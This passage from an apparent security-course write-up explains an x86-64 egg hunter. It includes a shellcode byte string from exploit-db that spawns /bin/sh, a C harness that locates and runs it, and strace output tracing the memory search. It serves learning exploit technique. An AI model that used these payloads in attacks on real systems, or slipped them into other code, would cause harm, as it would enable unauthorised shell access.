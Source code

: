 In the final C program I will be also using the 21-byte shellcode from: [https://www.exploit-db.com/exploits/41750](https://www.exploit-db.com/exploits/41750).

```
...
;================================================================================
; Shellcode (python) :
shellcode = "\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
;================================================================================
...
```

This is how the final program with the defined EGG, egg hunter code and shellcode payload from exploit-db.com is looking like:
```
#include <stdio.h>
#include <string.h>

#define EGG "\x50\x90\x50\x90"

unsigned char hunter[] = \
"\x48\x31\xf6\x56\x5f\x66\x81\xcf\xff\x0f\x48\xff\xc7\x48\x31\xc0\xb0\x15\x0f\x05\x3c\xf2\x74\xed\xb8\x4f\x90\x50\x90\xfe\xc0\xaf\x75\xeb\xff\xe7";

unsigned char payload[] = EGG "\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05";

int main(void) {
	printf("Egg hunter's size (bytes): %lu\n", strlen(hunter));
	printf("Payload's size (bytes): %lu\n", strlen(payload));
	int (*ret)() = (int(*)())hunter;
	ret();
}

```

Let's run it:

<img src="/assets/img/SLAE/task3.png" style="width:50%">

Also if you used the program with strace as `strace ./shellcode` you would see how the search is trying to identify the egg:

```
...
ccess("", F_OK)                        = -1 ENOENT (No such file or directory)
access("", F_OK)                        = -1 ENOENT (No such file or directory)
access("", F_OK)                        = -1 ENOENT (No such file or directory)
access("", F_OK)                        = -1 ENOENT (No such file or directory)
access("", F_OK)                        = -1 ENOENT (No such file or directory)
access("", F_OK)                        = -1 ENOENT (No such file or directory)
...
access("", F_OK)                        = -1 ENOENT (No such file or directory)
access("", F_OK)                        = -1 ENOENT (No such file or directory)
access("P\220P\220\367\346PH\277/bin//shWH\211\347\260;\17\5", F_OK) = -1 ENOENT (No such file or directory)
execve("/bin//sh", NULL, NULL)          = 0
...
```